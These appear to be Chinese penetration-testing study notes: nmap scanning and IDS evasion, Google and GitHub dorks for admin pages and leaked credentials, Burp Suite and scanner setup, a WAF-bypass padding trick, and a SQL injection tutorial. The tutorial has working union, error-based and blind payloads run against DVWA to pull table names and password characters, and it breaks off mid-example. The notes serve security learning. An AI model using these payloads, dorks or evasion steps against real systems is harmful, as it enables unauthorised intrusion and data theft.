        <br>如果在指定的扫描范围有一些主机或网络不是想要扫描的目标， 那就用该选项加上以逗号分隔的列表排除它们。该列表用正常的Nmap语法， 因此它可以包括主机名，CIDR，八位字节范围等等。当希望扫描的网络包含执行关键任务的服务器，已知的对端口扫描反应强烈的系统或者被其他人看
        - --excludefile (排除文件中的列表)
        <br>这和--exclude 选项的功能一样，只是所排除的目标是用以换行符，空格，或者制表符分隔的列表/文件提供的，而不是在命令行上输入的。
        管的子网时，这也许有用。
      - 主机发现 
        - -sL（列表扫描）
        <br>扫描网段内的ip，并返回对应的域名信息
        - -sP（ping扫描）
        <br>查询扫描范围内，存活的主机（但是会遗漏一些禁ping主机）
        - -P0（无ping）
        <br>正常来说，nmap会先ping指定范围内的主机，根据主机的响应情况去发送一些探测端口或者操作系统的探测包，但这样会遗漏禁ping的机器；使用P0则会给指定范围的所有主机发送探测包，而不先一步进行响应判断，防止遗漏禁ping设备

      - 端口扫描基础
        - 端口状态 （Nmap所识别的6个端口状态）: open(开放的)，closed(关闭的)，filtered(被过滤的)， unfiltered(未被过滤的)， open|filtered(开放或者被过滤的)，或者 closed|filtered(关闭或者被过滤的)。
        - 这些状态并非端口本身的性质，而是描述Nmap怎样看待它们。例如，对于同样的目标机器的135/tcp端口，从同网络扫描显示它是开放的，而跨网络进行完全相同的扫描则可能显示它是filtered(被过滤的)。
        - open(开放的)
        <br>应用程序正在该端口接收TCP连接或者UDP报文。发现这一点常常是端口扫描的主要目标。
        <br>安全意识强的人们知道每个开放的端口都是攻击的入口。攻击者或者入侵测试者想要发现开放的端口。 
        <br>而管理员则试图关闭它们或者用防火墙保护它们以免妨碍了合法用户。 
        <br>非安全扫描可能对开放的端口也感兴趣，因为它们显示了网络上那些服务可供使用。
        - closed(关闭的)
        <br>端口对外开放，但是上面没有承载服务
        <br>它们可以显示该IP地址上(主机发现，或者ping扫描)的主机正在运行，也对部分操作系统探测有所帮助
        <br>因为关闭的关口是可访问的，也许过会儿值得再扫描一下，可能一些又开放了。
        <br>系统管理员可能会考虑用防火墙封锁这样的端口，那样的话就会被显示为被过滤的状态
        - filtered(被过滤的)
        <br>数据包被阻止了，可能是一些安全防护设备导致的
      - 端口扫描常用参数
        - -sS（TCP SYN扫描）
        <br>SYN扫描作为默认的也是最受欢迎的扫描选项，是有充分理由的。它执行得很快，在一个没有入侵防火墙的快速网络上，每秒钟可以扫描数千个端口。SYN扫描相对来说不张扬，不易被注意到，因为它从来不完成TCP连接。
        - -sT(TCP connect()扫描)
        - -sU(UDP扫描)
      - 端口说明和扫描顺序
        - -p (只扫描指定的端口)
        <br>指明想扫描的端口，覆盖默认值
        <br>单个端口和连字符表示的端口范围(1-1024)
        <br>当扫描TCP又扫描UDP的时候，可以在端口号前加T：或者U：指定协议，协议限定符一致有效直到指定另一个。例如：参数 -p U:53,111,137,T:21-25,80,8080
        <br>注意：当既要扫描UDP又要扫描TCP的时候，必须指定-sU以及至少一个TCP扫描类型（如：-sS,-sF或者-sF）
        - -F（快速（有限的端口）扫描）
        - -r （不要按随意顺序端口扫描 ）
      - 服务和版本探测
        - -sV（版本探测）
        - -A：同时打开操作系统探测和版本探测
        - --allports(不为版本探测排除任何端口)
      - 操作系统探测
        - -O（启用操作系统检测）
        - -A：同时打开操作系统探测和版本探测
      - 时间和性能
        - T0到T5
        - 从0到5，0扫描最慢，5最快
        - T0和T1通常用于躲避IDS防护设备
      - 防火墙/IDS躲避
        - -f(报文分段)；-mtu(使用指定的MTU)
        - -S\<ip_adrress>(源地址欺骗)
        - --source-port\<portnumber>;-g<portnumber>(源端口欺骗)
        - --date-length\<number>(发送报文时附加随机数据)
      - 输出（用的不多）
        - -oN\<filespec>(标准输出)
        - -oX\<filespec>(XML输出)
      - 细节和调试选项
        - -v（提高输出信息的详细度）
        - -d ：跟在-v后面可以提高详细度的级别，最高是-d9，会有上千行信息
      - 其他选项
        - -6（启用IPV6扫描）
  
    - masscan：https://github.com/robertdavidgraham/masscan
    - Goby：https://gobies.org/(无需安装，下载直接使用)
    - 御剑：https://github.com/foryujian/yujianportscan（扫描目录）
      - 原理：枚举爆破
  
- 敏感信息
  - GoogleHack语法
    - 后台地址
      - site:xxx.com 管理后台/登录/管理员/系统，可以通过添加双引号增加精确度
      - site:xxx.com inurl:login/admin/system/manage
    - 敏感文件
      - site:xxx.com filetype:pdf/doc/xls/txt
      - site:xxx.com filetype:log/sql/conf
    - 测试环境
      - site:xxx.com inurl:test/ceshi
      - site:xxx.com intitle:后台/测试
    - 邮箱/QQ/群
      - site:xxx.com 邮件/email
      - site:xxx.com qq/群/企鹅/腾讯
      - site:xxx.com intitle:"Outlook Web App" 邮件服务器的web界面
      - site:xxx.com intitle:"mail"
      - site:xxx.com intitle:"webmail"
    - 其他
      - site:xxx.com inurl:api
      - site:xxx.com inurl:uid=/id=
      - site:xxx.com intitle:index.of "server at

- Github
  - @xxx.com password/secret/credentials/token/config/pass/login/ftp/ssh/pwd
  - @xxx.com security_credentials/connetionstring/JDBC/ssh2_auth_password/send_keys

- 网盘引擎
  - 盘搜搜：http://www.pansoso.org
  - 盘多多：http://www.panduoduo.top/
  - 大力盘：https://dalipan.com/

- 空间搜索引擎
  - FOFA：https://fofa.info/ 之前被禁用，目前已恢复，但是功能阉割严重
  - Quake：https://quake.360.cn/quake/#/index
  - ZoomEye：https://www.zoomeye.org/
  - Shadon：https://www.shodan.io
    - 基础语法：https://blog.csdn.net/Vdieoo/article/details/109622838
  
- 历史漏洞
  - CNVD：https://www.cnvd.org.cn/
  - CNNVD：http://www.cnnvd.org.cn
  - Seebug：https://www.seebug.org
  - Exploit Database：https://www.exploit-db.com
  - https://sploitus.com/


## 扫描工具
### AWVS（应用漏洞扫描器）安装及使用
- 使用docker安装
  - `docker pull dockermi3aka/awvs`
- 启动镜像
  - `docker run -dit -p 3443:3443 dockermi3aka/awvs`
- 访问地址；
  - `https://YOUR_IP:3443/`
  - 注意：是https://，这个不能漏
- 登录用户名密码
  ```
  用户名：admin@admin.com
  密码：Admin123
  AWVS版本: 14.7.220425114
  ```
- 扫描器原理：
  - 扫描器通过发送（扫描探测包）http请求，进行扫描的探测，然后根据服务端的回显判断是否存在漏洞

- AWVS的缺点：
  - 容易被（安全防护设备）发现
- 应用场景
  - 更适合做自查

### Xray安装及使用
- 介绍：Xray是一款半开源的功能强大的安全评估工具，支持主动扫描和被动扫描
- 主动扫描的工作过程
  - 点击扫描后，最开始会有个爬虫去爬取网站的目录结构
  - 爬取网站的目录结构之后，去各个页面寻找功能点或参数
  - 通过发送测试的数据包到目标站点，根据服务端回显判断网站是否存在漏洞
- 主动扫描
  - 缺点
    - 容易被拦截
    - xray的基础爬虫不能处理js渲染的页面
  - 启动扫描
  ```shell
  .\xray_windows_amd64 webscan --basic-crawler http://testphp.vulnweb.com/ --html-output xray-crawler-testphp.html
  ```
  - 指令解析：
    - .\xray_windows_amd64    启动xray扫描器
    - webscan    进行web扫描
    - --basic-crawler    基础爬虫扫描
    - http://testphp.vulnweb.com/    选择要爬取的网址
    - --html-output    以html格式输出，生成报告
    - xray-crawler-testphp.html    自定义的报告名称

- 被动扫描（重点）：
  - 被动扫描（代理模式）原理：
    - 代理模式下的基础架构为，扫描器作为中间人，首先原样转发流量，并返回服务器响应给浏览器等客户端，通讯两端都认为自己直接与对方对话，同时记录该流量，然后修改参数并重新发送请求进行扫描
  - 安装：需要证书
  - 安装证书：
    - 执行指令：`.\xray_windows_amd64.exe genca`
    - 下载ca证书后进行安装
      - 火狐浏览器安装
        - 设置 -> 安全与隐私 -> 证书 -> 导入证书 ->勾选信任该证书的网站 -> 确定
      - 本地安装
  - 开启xray被动扫描
  ```shell
  .\xray_windows_amd64.exe webscan --listen 127.0.0.1:7777 --html-output xray-wanhao_report.html
  ```
  - 指令详解；
    - .\xray_windows_amd64.exe    启动扫描器
    - webscan    进行web扫描
    - --listen 127.0.0.1:7777     监听本地7777端口
    - --html-output    以html格式输出，生成报告
    - xray-testphp.html   自定义报告名称

  - 开启端口监听后，在浏览器端设置代理
  - 优点：
    - 在一定程度上，绕过安全防护设备/策略进行扫描

- X-scan 应用&&主机漏洞扫描器
  - 很老的一款扫描器，不建议在本地安装，建议在虚拟机使用
  - 使用场景：
    - 一般用于很老的操作系统版本的电脑，因为不支持新版的扫描器，而只能使用这款扫描器的情况下使用

- AppScan 应用漏洞扫描器
  - 介绍：AppScan on Cloud（ASoC）是一种SaaS解决方案（Software-as-a-service 软件即服务），可满足所有应用程序安全测试需求。
  - 扫描模式（四种）
    - 动态分析(DAST) 黑盒扫描 主动扫描
      - appscan的动态分析会要求“域验证”
    - 静态分析(SAST) 白盒扫描 自动化代码审计
    - 交互式分析(IAST)
      - 适用于java，相当于在java程序运行过程中加载了一个额外的jar包
      - 缺点：
        - 不安全
        - 影响性能
        - 应用很少
    - 开源分析 

- 扩展：市面上免费的自动化代码审计软件
  - checkmark
  - fortify
  - Xcheck 腾讯的商业软件

### Nessus-主机漏洞扫描
- 主机漏洞扫描工具主要是以商业化产品为主，很难像应用漏洞扫描器那样去找到免费版的工具
- Nessus安装
  - nessus的激活码申请网站：
    - https://zh-cn.tenable.com/products/nessus/activation-code?tns_redirect=true
  - Nessus的下载网站
    - https://www.tenable.com/downloads/nessus?loginAttempted=true
- 启动服务：
  - 访问地址i:https://localhost:8834

- 重点：主机漏洞扫描一般是全端口扫描，端口范围选择：1-65535
- 主机漏洞扫描器的扫描方式
  - 版本扫描
  - 原理扫描

## BurpSuite （渗透测试最重要工具）
- 通过命令行启动Burp
  - `java -jar xxx.jar`

- 设置JVM内存大小
  - 场景：当在渗透过程中，如果有成千上万个请求通过Burp，这时就可能会导致Burp Suite因内存不足而崩溃，从而丢失渗透测试过程中的相关数据。因此，当我们启动BurpSuite时，通常会指定它内存的大小，通常会指定2G，如果电脑内存足够，建议分配4G
  - 指令：`java -jar -Xmx2G /your_burp_path/burpsuite.jar`

- 原理：BurpSuite代理工具是以拦截代理的方式，拦截所有通过代理的网络流量，如客户端的请求数据，服务器端的返回信息等。BurpSuite主要拦截http和https协议的流量，通过拦截，BurpSuite以中间人的方式，可以对客户端请求数据、服务端返回做各种处理，以达到安全评估测试的目的。
- 在日常工作中，我们最常用的Web客户端就是浏览器，我们可以通过代理的设置，做到对浏览器的流量拦截，并对经过BurpSuite代理的流量数据进行处理。

- 配置代理：
  - 火狐浏览器的代理：
    - 设置 -> 常规 -> 网络设置 -> 手动配置代理 -> HTTP:127.0.0.1 -> 端口(p):8080
  - 全局代理(Windows 11)：
    - 电脑设置 -> 网络和Internet -> 代理 -> 手动设置代理 -> 地址：127.0.0.1 ，端口号：8080
    - 全局的缺点：
      - 会有很多垃圾请求，影响正常的数据包操作

- 手机抓包代理
  - 手机和电脑接入同一个WIFI，在电脑上确认WIFI的IP地址，即代理地址

### 数据拦截与控制
- Burp Proxy的拦截主要由`Intercept`选项卡中的Forward、Drop、Intercept is on/off、Action(右键)、Comment以及Highlight构成
  ```
  Forward：当查看过消息或者重新编辑过消息之后，点击此按钮，将发送消息至服务器端

  Drop：丢弃当前拦截的消息，不再forward到服务器端

  Intercept is on： 拦截功能打开，拦截所有通过Burp Proxy的请求数据
  Intercept is off：拦截功能关闭，不再拦截通过Burp Proxy的所有请求数据

  Action：将当前请求的消息传递到Scan、Repeater、Intruder、Sequencer、Decoder、Comparer组
  件，做一些请求消息的修改，如改变GET或者POST请求方式、改变请求body的编码，同时也可以改变请求消息
  的拦截设置，如不再拦截此主机的消息、不再拦截此IP地址的消息、不再拦截此种文件类型的消息、不再拦截
  此目录的消息，也可以指定针对此消息拦截它的服务器端返回消息。

  Comment：对拦截的消息添加备注，在一次渗透测试中，你通常会遇到一连串的请求消息，为了便于区分，在某个关键的请求消息上，你可以添加备注信息。

  Highlight：其功能与 Comment 有点类似，即对当前拦截的消息设置高亮，以便与其他的请求消息相区分

  ```

- 可选项配置Options
  - 客户端请求消息拦截（Intercept Client Requests）
    - Automatically fix missing or superfluous new lines at end of request (相当于容错处理，在请求头和请求体之间自动添加空行，一般不勾选)
    - Automatically update content-length header when the request is edited (一般勾选，用来自动更新修改后的请求文本长度)
  - 服务端返回消息拦截
    - 与请求消息拦截的参数，基本一致
  - 服务器返回消息修改
  - 正则表达式设置
  - 其他配置项

- 历史记录 HTTP histroy
  - Burp Proxy的历史记录一共由两个部分组成
  - HTTP history
    - 筛选过滤器
      - 按照请求类型进行过滤 Filter by request type
        - Show only in-scope items (先显示当前作用域)
        - Hide items without response (隐藏没有响应的请求)
        - Show only poarameterized requests (仅显示带参数的请求)
      - 控制服务端返回不同类型的消息 Filter by MIME type
        - HTML
        - Other text
        - Script
        - Images
        - XML
        - Flash
        - CSS
        - Other binary
      - 基于返回的状态码过滤 Filter by status code
        - 2XX
        - 3XX
        - 4XX
        - 5XX
      - 按照查找条件过滤 Filter by search term
        - 正则表达式
        - 大小写敏感
        - 否定查找
      - 按照文件类型过滤 Filter by file extension
      - 按照备注过滤 Filter by annotataion
      - 基于端口进行匹配 Filter by listener
    - 历史记录列表
    - 消息详情
  - WebSocket history（用不到）

### SSL和proxy高级选项
- HTTPS协议使为了数据传输安全的需要，在HTTP原有的基础上，加入了安全套接字层SSL协议，通过CA证书来验证服务器的身份，并对通信消息进行加密。基于HTTPS协议这些特性，我们在使用Burp Proxy代理时，需要加入更多的设置，才能拦截HPPTS的消息。
- CA证书的安装
  - 在HTTPS通信过程中，一个很重要的介质是CA证书
- Proxy监听设置
  - Binding
    - Add a new proxy listener
      - Loopback only    只监听本地
      - All interfaces   监听电脑上的所有接口
      - Specific address 监听指定地址
        - 在渗透测试中，无论你选择哪种模式，你需要明白一点，当你选择的非本地回路IP地址时，同局域网内的其他电脑也可以访问你的监听地址
  - Request handling(请求处理): 主要用来控制接收到Burp Proxy监听端口的请求后，如何对请求进行处理的，即使用burp再次转发（这里仅适用于http协议的网站）
  
  - 对于https协议的网站：设置具体的网站和对应转发的ip-端口
  
  - 使用brup二次转发的意义
    - 比如：客户端 -> Burp -> xray -> 服务端
    - 可以通过Burp对数据包处理，使处理后的数据包在经过xray的更改后，绕过WAF等安全设备的检测
    - WAF—网站应用防火墙，主要防护web端的检测
      - WAF对数据包的检测是有时间限制的，所以可以通过burp抓到数据包后，对其修改加入大量的垃圾信息，这样就可以消耗WAF的检测时间，使其在检测到xray添加的探测信息前就检测超时，成功绕过WAD的检测（总结就是利用无用数据消耗WAF的检测时间）
    - 主机端的检测一般使用：防火墙，IPS

### 使用Brup抓取Google数据包
- 原理：
  - 本地浏览器开启本地的8080端口的代理（我用的火狐浏览器）
  - 然后在burp中设置一个10808的本地端口代理，因为V2ray的代理端口是10808
  - 通过V2ray客户端将本地的10808端口和vps的443端口映射上
  - 这样就实现本地浏览器->burpsuite->vps->目标网站的通路
- 图例：(这里1080端口换成10808，43085换成443，是我自己的配置)

- 唯一重要的一步：


### Burp Target
- 概述：Burp Target组件主要包含站点地图、目标域、Target工具三部分组成
- 作用：可以帮助渗透测试人员更好地了解目标应用的整体状况，当前工作涉及哪些目标域、分析可能存在的攻击面等信息
#### 目标域设置Target Scope
- 使用场景：过滤其他垃圾网站流量，仅对指定网站/ip的数据包进行展示
- 设置过程：
  - 现在scope中，添加指定的拦截的网站
  
  - 然后在历史筛选中，选择show only in-scope items
  
  - scope模块使用高级设置，可以是信息颗粒度更加精细

#### 站点地图Site map
- 手工获取站点地图（被动扫描 ）
  - 设置浏览器代理和Burp Proxy代理，并使之能正常工作
  - 关闭Burp Proxy的拦截功能
  - 手工浏览网页，这时，Target会自动记录站点地图信息

- 攻击面分析
  - 右键选择要分析的站点，然后在下拉列中选择：Engagement tools中选择Analyze Target
  - 共有四个模块
    - Summary：数据汇总
    - Dynamic URLs：动态连接
    - Static URLs：静态连接
    - Parameters：参数
  - 动态连接和静态连接的区别：
    - 带参数的就是动态连接；不带参数的就是静态连接
    - 静态页面没有安全问题，动态URL才可能存在安全问题
  - 伪静态页面：
    - 不是静态，但是伪装为静态页面
    - 例如：
      - 原始格式：www.hack.com/public/js?id=5.3.1
      - 变形后：www.hack.com/public/js/5.3.1 伪装为静态页面

### Discover Content(爬虫功能)
- control
  - 对指定ip/域名进行主动爬取
- config
  - Target
  - Filenames:对爬取的文件进行设置（通常默认）
  - File Extensions(文件扩展名) 通常默认全选
- site map

### Burp Scan（扫描功能）
- 启动方法
  - 捕获按钮开启，实现被动爬取和审计（被动扫描）
    - 当使用被动扫描时，Burp几乎不额外构造请求进行爬虫和扫描，它根据用户浏览网页进行常规请求，对已经存在的请求和响应进行简单分析，这对系统检测比较安全，但是局限性比较强，通常适用于生产环境
  
  - 主动扫描：
  
  
    - 当使用主动扫描时，Burp会向应用发送新的请求并通过payload验证漏洞。
    - Scan details (略)
    - Scan configuration ：保持默认
    - Application login 应用登录
    - Resource pool 资源池
      - 控制资源请求的间隔数以及请求时间的间隔的

### Burp Intruder 爆破
- 概述：通常被渗透测试人员使用在各种爆破测试任务的场景中
- 主要学习内容
  - Intruder使用场景和操作步骤
  - Payload类型与处理
  - Payload位置和攻击类型
  - 可选项设置(Options)
  - Intruder攻击和结果分析

- 使用场景：
  - 标识符枚举：如；密码爆破
  - 提取有用的数据：枚举有用的文件id，以批量下载文件
  - 模糊测试 

- 基本使用方法
  - 在需要爆破的页面抓包
  - 右击空白处，得到菜单，send to Intruder
  - 其他，过于简单暂略

- payload的类型和处理
  - payload类型（payload type）
    - 简单列表（Simple list）：最简单的payload类型，通过配置一个字符串列表作为payload，也可以手工添加字符串列表或从文件加载字符串列表
    - 运行时文件（Runtime file）：在select file中加载文件，和第一种的加载文件属于相同的方法
    - 自定义迭代器（Custom iterator）：这是一个款功能强大的payload，它共有8个占位，每个占位可以指定简单列表的payload类型，然后根据占位的多少，与每个简单列表的payload进行笛卡尔积，生成最终的Payload列表。
    - 字符串替换(Character substitution)：此种Payload的类型是对预定义的字符串进行替换后生成新的Payload。
    - 大小写替换
    - 字符块（character blocks）：用于生成指定大小的字符块，表现形式为生成指定长度的字符串。它通常用来绕过应用防火墙WAF
    - 暴力字典
    - 空类型
    - 字符扮演者
    - 用户名生成器

- payload位置和攻击类型
  - 攻击类型
    - Sniper 狙击手模式：只能爆破一个参数位置
    - Battering ram 攻城锤模式：多个参数位置，用一个相同的数值爆破，基本用不上
    - Pitchfork 交叉模式：一一对应
    - Cluser bomb 集束炸弹模式：所有排列都有可能，多参数爆破，常用

- 可选项设置
  - 请求的消息头配置（Request Header）：一般保持默认不动
  - 请求引擎（Request Engine）的设置：
    - Number of threads: 并发线程数
    - Number of retries on network failure: 网络失败时重试次数
    - Pause before retry: 重试前的暂停时间间隔
    - Throttle between requests: 请求延时（毫秒）
    - Start time: 定时开始
  - 攻击结果设置：一般保持默认
  - Grep Match: 从响应消息中匹配结果项

### Burp Decoder 编码解码工具
### Burp Comparer
- 功能：提供一个可视化的差异对比功能，来对比分析两次数据之间的区别
- 使用场景：
  - 枚举用户名过程中，对比分析登录成功和失败时，服务端反馈结果的区别
  - 使用Intruder进行攻击时，对于不同服务器响应，可以很快的分析出两次响应的区别在哪里
  - 进行SQL注入的盲注测试时，比较两次响应消息的差异，判断响应结果与注入条件的关联关系


  


## 前端防御策略
- 用户输入之前进行判断：
  - 比如：（过滤）手机号只允许输入数字，很容易被绕过
- 用户输入之后进行判断
  - 在用户请求之后，在返回浏览器的终点进行转义，因为此时数据包已经脱离了攻击者的控制，因此不容易被绕过（比如：HTML实体编码）
  - 注意实体编码实在burp之后进行的，是响应数据包返回时

## SQL注入
- SQL注入前置知识点1
  - [非布尔值逻辑运算](../web/javascript.md#逻辑运算符)
- 概述：一般指Web应用程序对用户输入数据的合法性没有校验或过滤不严，攻击者可以在web应用程序中事先定义好的查询语句结尾添加额外的SQL语句，在系统运维人员不知道的情况下实现非法操作，以此来实现欺骗数据库服务器执行非授权的任意查询操作，从而进一步得到相应的数据信息
- 漏洞危害：
  - 危害较高的漏洞，可以获取敏感信息，修改信息，脱库，上传webshell，执行命令
- SQL注入的满足条件
  - 参数用户可控：前端向后端传递的参数内容是用户可以控制的
  - 参数带入数据库进行查询：传入的参数拼接到了SQL语句，且带入数据库进行查询  

### SQL注入分类
- 隐式转换
  - 仅对int类型的字段有效
    - 当传入或查询int类型的字符数据时，如果数据是字符型，则从第一个字符开始检测，依次向后知道非数字出现停止检测
  - 字符型没有隐式转换 
    ```sql
    SELECT * from geektime where id = '1abc'
    -- 如果id是int型，则相当于查询id = 1
    -- 如果id是字符型，则相当于查询id = '1abc'
    ```
- 判定用户输入类型
  - 分类
    - 数字型注入
    - 字符型注入
  - 根据该参数字段的类型决定，如果用户输入的参数，传递到后端的字段是数字型，则是数字型注入，如果传递到后端的字段是字符型的，就是字符型注入

  - 场景判定步骤
  ```md
  sql注入中，逃出字符串单引号的方法
  1' and 1 = 1 # 
  这里#将后面多余的'注释掉，使得后面的and 1=1 可以正常执行
  ```

### 联合查询注入（Union注入）
- 概述：联合查询是在一条SQL语句中执行多个查询任务，等同于将一个表追加到另一个表，从而实现将两个表的查询组合到一起，使用UNION或UNION ALL

- UNION操作符选取不重复的值；UNION ALL 选取重复的值
 - UNION注入的前提条件
  - UNION ALL的左右两边列数一致，页面上有显示位
    - 如何判断字段的查询数：
      - 使用ORDER BY，从1开始测试，2，3直至报错，如果是3报错，说明表格只有2列，无法排序第三列数据，否则继续向后测试

- 判断列数的目的
  - 为了构造联合注入的语句

- 显示位不够解决方案
```sql
-- 使用concat()将多个数值合并到一行显示
SELECT first_name,last_name
FROM users
WHERE user_id = 1 
UNION ALL
SELECT CONCAT(version(),',',database()),1

-- 在前端输入：
 1' union all select concat(version(),',',database()),1#
```

- information_schema数据库
  - 使用范围：在该数据库向前端开放的时候，可以使用这个方法进行sql注入 
  - information_schema概述
    - MySQL5.0以上版本，存在一个自带的数据库
    - information_schema数据库中有3个表非常重要：

```shell
  SCHEMATA: 表里包含所有数据库的名字
  TABLES：表里包含所有数据库的所有表，默认字段为table_name
  COLUMNS: 表里包含所有数据库的所有表的所有字段
```
- 联合注入的过程：
  - 判断注入点
  - 判断是整型还是字符型
  - 判断列数(order by),显示位
  - 获取目标数据库名
  - 获取目标数据库的所有表名，字段名，字段中的数据
- 实操：
```
求当前库名：
前端：
1' union select concat(database(),',',version()),1 #

后端：
SELECT first_name,last_name
FROM users
WHERE user_id = 1
UNION ALL
SELECT concat(database(),',',version()),1;

// 得出当前库名：dvwa,5.5.54-0+deb8u1-log

求所有数据库的库名：
前端：
1' union all select group_concat(SCHEMA_NAME),1 from information_schema.SCHEMATA #

后端：
SELECT first_name,last_name
FROM users
WHERE user_id = 1
UNION ALL
SELECT group_concat(SCHEMA_NAME),1
FROM information_schema.SCHEMATA;

求当前数据库'dvwa'中的表名
前端：
1' union all select group_concat(TABLE_NAME),1 FROM information_schema.TABLES WHERE TABLE_SCHEMA = 'dvwa' #

后端：
SELECT first_name,last_name
FROM users
WHERE user_id = 1
UNION ALL
SELECT group_concat(TABLE_NAME),1
FROM information_schema.TABLES
WHERE TABLE_SCHEMA = 'dvwa';

// 得出表名：guestbook,users

求users表中的所有字段名
前端
1' union all select group_concat(COLUMN_NAME),1 from information_schema.COLUMNS where TABLE_NAME = 'users'#

后端：
SELECT first_name,last_name
FROM users
WHERE user_id = 1
UNION ALL
SELECT group_concat(COLUMN_NAME),1
FROM information_schema.COLUMNS
WHERE TABLE_NAME = 'users';

// 得出所有字段名：
// user_id, first_name, last_name, user, password, avatar, last_login, failed_login

求users表中字段'first_name'的具体数据
前端
1' union all select first_name,last_name from users #

后端
SELECT first_name,last_name
FROM users
WHERE user_id = 1
UNION ALL
SELECT first_name,last_name
FROM users;

```
### 报错注入
- 概述：
  - 报错注入顾名思义主要是利用数据库报错来进行判断是否存在注入点，如果不符合数据库语法规则就会产生错误

  - 在MySQL高版本（大于5.1版本）中添加了对XML文档进行查询和修改的函数，这两个函数常用于报错注入
  ```
  extractvalue()
  updatexml()

  原因：当这两个函数在执行时，如果出现XML文档路径错误就会产生报错
  ```

- 报错注入常用函数
  - extractvalue()函数
    - 功能：此函数从目标XML中返回包含所查询值得字符串。
    - 语法：`extractvalue(XML_document, xpath_string)`
      - 参数1：string格式，为XML文档对象的名称
      - 参数2：xpath_string（xpath格式的字符串），为XML文档的路径
    - extractvalue()使用时，当xpath_string格式出现错误，mysql则会爆出xpath语法错误(xpath syntax)
    ```sql
    select user,password from users where user_id = 1
    and extractvalue(1,0x7e);

    select user,password from users where user_id = 1 
    and extractvalue(1,concat(0x7e,(select user()),0x7e))

    -- 由于0x7e就是~，~不属于xpath语法格式，因此报出xpath语法错误
    ```

- 报错注入的利用条件
  - 必须是MySQL报错，并且有报错返回前端
  - 必须要用到对应的报错函数触发函数语法规则的报错，MySQL本身的语法错误不会解析SQL语句，只有函数语法规则的报错才会解析SQL语句 
  - <font color=tomato>这里重点是，利用函数语法规则去解析SQL语句</font>

- 实操演示
```
求库名：
前端：
1' and extractvalue(1,concat(0x7e,database())) # 

后端：
SELECT first_name,last_name
FROM users
WHERE user_id = 1
AND extractvalue(
    1,
    concat(
        0x7e,
        database()
    )
);

// XPATH syntax error: '~dvwa'

求表名：
方法1：直接查询出所有的表名(有字符数量的限制)
前端：
1' and extractvalue(1,concat(0x7e,(select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA = 'dvwa'))) # 

后端： 
SELECT first_name,last_name
FROM users
WHERE user_id = 1
AND extractvalue(
    1,
    concat(
        0x7e,
        (
          SELECT group_concat(TABLE_NAME)
          FROM information_schema.TABLES
          WHERE TABLE_SCHEMA = 'dvwa'
        )
    )
);

// XPATH syntax error: '~guestbook,users'

方法2：先判断表的数量，然后再使用limit将需要的数据查询出来（当数据量很大的时候，可以使用这个方式）
表的数量查询
前端：
1' and extractvalue(1,concat(0x7e,(select count(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA = 'dvwa'))) #

后端：
SELECT first_name,last_name
FROM users
WHERE user_id = 1
AND extractvalue(
    1,
    concat(
        0x7e,
        (
          SELECT count(TABLE_NAME)
          FROM information_schema.TABLES
          WHERE TABLE_SCHEMA = 'dvwa'
        )
    )
);

// XPATH syntax error: '~2'

根据表的数量，查询指定数据
前端：
1' and extractvalue(1,concat(0x7e,(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA = 'dvwa' limit 0,1))) #

后端：
SELECT first_name,last_name
FROM users
WHERE user_id = 1
AND extractvalue(
    1,
    concat(
        0x7e,
        (
          SELECT TABLE_NAME
          FROM information_schema.TABLES
          WHERE TABLE_SCHEMA = 'dvwa'
          LIMIT 0,1
        )
    )
);

// XPATH syntax error: '~guestbook'

前端：
1' and extractvalue(1,concat(0x7e,(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA = 'dvwa' limit 1,1))) #

后端：
SELECT first_name,last_name
FROM users
WHERE user_id = 1
AND extractvalue(
    1,
    concat(
        0x7e,
        (
          SELECT TABLE_NAME
          FROM information_schema.TABLES
          WHERE TABLE_SCHEMA = 'dvwa'
          LIMIT 1,1
        )
    )
);

// XPATH syntax error: '~users'

求字段：
先求出字段的数量
前端：
1' and extractvalue(1,concat(0x7e,(select count(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME = 'users'))) #

后端：
SELECT first_name,last_name
FROM users
WHERE user_id = 1
AND extractvalue(
    1,
    concat(
        0x7e,
        (
          SELECT count(COLUMN_NAME)
          FROM information_schema.COLUMNS
          WHERE TABLE_NAME = 'users'
        )
    )
);

// XPATH syntax error: '~8'

根据列数查询列名
前端：
1' and extractvalue(1,concat(0x7e,(select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME = 'users' limit 0,1))) #

后端：
SELECT first_name,last_name
FROM users
WHERE user_id = 1
AND extractvalue(
    1,
    concat(
        0x7e,
        (
          SELECT COLUMN_NAME
          FROM information_schema.COLUMNS
          WHERE TABLE_NAME = 'users'
          LIMIT 0,1
        )
    )
);

// XPATH syntax error: '~user_id'

根据列名查找实际数据
前端：
1' and extractvalue(1,concat(0x7e,(select length(password) from users where user_id = 1))) #

后端：
因为报错注入有字符长度限制，因此优先查询目标数据的字符长度
SELECT first_name,last_name
FROM users
WHERE user_id = 1
AND extractvalue(
    1,
    concat(
        0x7e,
        (
          SELECT length(password)
          FROM users
          WHERE user_id = 1
        )
    )
);

// XPATH syntax error: '~32'

密码总长度为32位，需要33位空位，少一位，使用substr()函数
前端：
1' and extractvalue(1,concat(0x7e,(select substr(password,32,1) from users where user_id = 1))) #

后端：
SELECT first_name,last_name
FROM users
WHERE user_id = 1
AND extractvalue(
    1,
    concat(
        0x7e,
        (
          SELECT substr(password,32,1)
          FROM users
          WHERE user_id = 1
        )
    )
);

// XPATH syntax error: '~9' 最后一位密码是9
```
- updatexml()函数
  - updatexml()是一个使用不同的XML标记匹配和替换XML块的函数
  - 作用：改变文档中符合条件的节点的值
  - 语法：updatexml(XML_document,xpath_string,new_value)
    - 第一个参数：是string格式，为XML文档对象名称
    - 第二个参数；代表路径，xpath格式的字符串，例如//title
    - 第三个参数：string格式，替换查找到的符合条件的数据
```
爆库名：
前端：
1' and updatexml(0x7e,concat(0x7e,database()),0x7e);#

后面和extractvalue()的注入方法相同
```

### 盲注
#### 布尔盲注
- 概述：只会根据注入信息返回True或者False，没有之前的查询信息或报错信息
- 判断方法：
  - 不管输入框输入什么内容，页面上只会返回两种情况，真或假，说明存在SQL盲注
  ```
  只输入1' and 1 = 1 #   可以证明存在SQL注入
  只输入1' and 1 = 2 #   不可以证明存在SQL注入
  ```

- 操作方法：
```
猜解当前数据库名称的长度（二分法思维）

1' and length(database()) > 10; #  MISSING
1' and length(database()) > 5; #  MISSING
1' and length(database()) > 3; #  exists
